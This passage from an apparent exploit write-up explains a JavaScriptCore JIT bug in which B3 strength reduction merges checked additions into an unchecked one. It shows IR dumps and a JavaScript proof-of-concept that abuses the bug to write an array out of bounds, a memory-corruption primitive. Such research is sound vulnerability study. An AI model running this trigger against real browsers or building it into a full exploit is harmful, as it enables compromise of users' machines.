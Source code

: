 Small note: JIT compiling this with an argument of `2` works better, as it never triggers the vulnerable case (when the result of `b & 2 == 0`)

Taking a look at the B3 IR generated to confirm our assumptions (you can do this by using the flag `--dumpB3GraphAtEachPhase=true`):

```
B3 after reduceDoubleToFloat, before reduceStrength:
...
b3      Int32 b@35 = CheckAdd(b@33:WarmAny, $-1(b@34):WarmAny, b@33:ColdAny, generator = 0x7f551e032750, earlyClobbered = [], lateClobbered = [], usedRegisters = [], ExitsSideways|Reads:Top, D@41)
b3      Int32 b@37 = CheckAdd(b@35:WarmAny, $-2147483648(b@36):WarmAny, b@35:ColdAny, generator = 0x7f551e0327a0, earlyClobbered = [], lateClobbered = [], usedRegisters = [], ExitsSideways|Reads:Top, D@45)
...
B3 after reduceStrength, before eliminateCommonSubexpressions:
...
b3      Int32 b@23 = Add(b@33, $2147483647(b@37), D@45)
...
```

We can see that the two `CheckAdd` nodes have been eliminated for a single unchecked `Add` node. In fact, instead of subtracting `1` and `0x80000000` from the value, it just adds `0x7fffffff` to the value, assuming it will wrap around to a negative integer. This assumption is wrong, as if the left operand is `0`, the result will be `0x7fffffff`, a positive value.

Ok, so how can we turn this into an OOB read?

Taking inspiration from [5aelo's blog post](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html) again, we create 2 checks so that `DFGIntegerRangeOptimization` will remove array bounds checks:

1. `idx < arr.length`
2. `idx >= 0`

After the first check, if we only do "safe" subtractions, it should theoretically still be safe to read the array at `idx`, as `idx` should still be less than `arr.length`.

And now we can obtain an OOB read, simply by triggering the bug (unsafe removal of `CheckAdd`) after the first check.

Here's a small code snippet, that should crash the binary by writing out of bounds:

```js
function hax(arr, a) {
    // Force 32-bit integer
    let b = a | 0;
    // Setup bug trigger
    // compiler assumes range is [1, 2], actually [0, 2]
    let c = b & 2;
    // Trigger rangeFor
    // assumed range [0, 1], actual [-1, 1]
    let idx = c - 1;

    // Check will always pass
    if (idx < arr.length) {
        // Trigger integer underflow, idx will become INT_MAX
        // Compiler assumes this case only triggers for value 0, no underflow check
        if (idx < 1) {
            idx += -0x80000000;
        }
        // idx assumed to be < arr.length, only subtraction occurs
        if (idx > 0) {
            arr[idx] = 0x1337;
        }
    }
}
```
